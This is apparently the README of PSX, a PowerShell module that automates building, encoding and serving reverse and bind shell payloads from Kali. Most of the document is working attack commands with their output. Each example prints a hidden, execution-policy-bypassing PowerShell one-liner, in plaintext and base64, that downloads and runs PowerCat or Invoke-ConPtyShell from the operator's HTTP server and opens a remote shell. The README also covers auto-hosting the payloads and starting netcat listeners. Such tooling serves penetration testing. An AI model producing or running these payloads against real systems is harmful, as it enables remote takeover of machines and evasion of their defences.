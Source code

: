 # PSX

## Description
This module helps specifically with PowerShell payloads

You no longer need to manually base64-encode your payloads, host, or tweak them\
With a few quick functions, you can now automate the whole shebang with only a few arguments

## Features
PSX currently provides the following features:
- ConPtyShell automation (including terminal [auto]size specification)
- PowerCat automation
- Base64-(encode|decode) payloads
- Automatic payload-to-clipboard
- Python Simple HTTP server
- Parameter completion
- [Optional] Automation for netcat listeners ***(X11 only)***

## Available Functions
- `cvsh` -> `Convert-Shell`
- `ib64` -> `Invoke-B64`
- `Invoke-Server`
- `Get-InterfaceAddress`
- `Sync-PSX`
- `Get-PSXAutomation` ***(X11 only)***
- `Set-PSXAutomation` ***(X11 only)***

## Heads up
- This module **WILL NOT**, and **MUST NOT** be, run as `root`; this is by design, and I will\
not be changing this at any point
- Only time elevated privileges are needed is on the first invocation of the module commands\
If you decide to enable automating netcat listeners, you will be prompted for your `sudo` password\
to issue the command `sudo apt-get install xdotool`
- The above command runs without verbosity, but you can see what gets installed by reading through\
`helpers/Init.ps1`
- Automation feature requires:
    - `xdotool` (Initial invocation of the module commands takes care of that)
    - X11 environment (Sorry, Waylanders...For now, maybe? :eyes:)
    - `Convert-Shell ... -Serve`
- When using `conpty` as the selected payload type, caution must be exercised where\
terminal sizing is concerened. That is to say, the _current_ terminal size is chosen\
by default unless otherwise configured. For example, if you convert a `conpty` shell\
in a vertically-split terminal (49 rows, 95 columns), the netcat listener must be run\
in a terminal window of the same size.If you are on an X11 environment, and you have\
automation enabled, it is preferred to run `pwsh` in a non-split tab
- The module is designed to be implicitly imported from the `$USER`'s `$PSModulePath`, so\
please make sure you clone it as per the instructions. Otherwise, you will have to tweak\
the module manifest, and any required path modifications yourself

## Cloning
```sh
kali@kali:~$ git clone https://github.com/X0RW3LL/PSX.git /home/$USER/.local/share/powershell/Modules/PSX
```
## Getting help
```ps
PS kali@kali /home/kali> Get-Help Convert-Shell -Full
```
## Examples

### PowerCat (reverse powershell)
```ps
PS kali@kali /home/kali> cvsh -i wlan1 -t powercat -lp 443 -s

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.111:80/powercat.ps1');powercat -c 192.168.0.111 -p 443 -e powershell"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgAxADEAMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAwAC4AMQAxADEAIAAtAHAAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA


[!] Starting HTTP server on wlan1 port 80
[!] Currently serving: /usr/share/powershell-empire/empire/server/data/module_source/management
[!] Ctrl+C terminates the server

Serving HTTP on 192.168.0.111 port 80 (http://192.168.0.111:80/) ...
```
### PowerCat (bind cmd)
```ps
PS kali@kali /home/kali> cvsh -t powercat -lp 4444 -s -i docker0 -e cmd -b

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:80/powercat.ps1');powercat -l -p 4444 -e cmd"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA3ADIALgAxADcALgAwAC4AMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AbAAgAC0AcAAgADQANAA0ADQAIAAtAGUAIABjAG0AZAA=


[!] Starting HTTP server on docker0 port 80
[!] Currently serving: /usr/share/powershell-empire/empire/server/data/module_source/management
[!] Ctrl+C terminates the server

Serving HTTP on 172.17.0.1 port 80 (http://172.17.0.1:80/) ...
```
### ConPty (split terminal autosize)
```ps
PS kali@kali /home/kali> cvsh -t conpty -lp 4455 -s -sp 8080 -i wg0

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.0.2:8080/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.8.0.2 4455 -Rows 49 -Cols 95"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADAALgAyADoAOAAwADgAMAAvAEkAbgB2AG8AawBlAC0AQwBvAG4AUAB0AHkAUwBoAGUAbABsAC4AcABzADEAJwApADsASQBuAHYAbwBrAGUALQBDAG8AbgBQAHQAeQBTAGgAZQBsAGwAIAAxADAALgA4AC4AMAAuADIAIAA0ADQANQA1ACAALQBSAG8AdwBzACAANAA5ACAALQBDAG8AbABzACAAOQA1AA==


[!] Starting HTTP server on wg0 port 8080
[!] Currently serving: /home/kali/.local/share/powershell/Modules/PSX/extensions
[!] Ctrl+C terminates the server

Serving HTTP on 10.8.0.2 port 8080 (http://10.8.0.2:8080/) ...
```
### ConPty (fullscreen terminal explicit sizing)
```ps
PS kali@kali /home/kali> cvsh -t conpty -lp 445 -s -i wg0 -rows 51 -cols 191          

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.0.2:80/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.8.0.2 445 -Rows 51 -Cols 191"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADAALgAyADoAOAAwAC8ASQBuAHYAbwBrAGUALQBDAG8AbgBQAHQAeQBTAGgAZQBsAGwALgBwAHMAMQAnACkAOwBJAG4AdgBvAGsAZQAtAEMAbwBuAFAAdAB5AFMAaABlAGwAbAAgADEAMAAuADgALgAwAC4AMgAgADQANAA1ACAALQBSAG8AdwBzACAANQAxACAALQBDAG8AbABzACAAMQA5ADEA


[!] Starting HTTP server on wg0 port 80
[!] Currently serving: /home/kali/.local/share/powershell/Modules/PSX/extensions
[!] Ctrl+C terminates the server

Serving HTTP on 10.8.0.2 port 80 (http://10.8.0.2:80/) ...
```
### Base64-decode
```ps
PS kali@kali /home/kali> ib64 -d SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgAxADEAMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAwAC4AMQAxADEAIAAtAHAAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA

[+] Decoded payload:
--------------------
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.111:80/powercat.ps1');powercat -c 192.168.0.111 -p 443 -e powershell

```
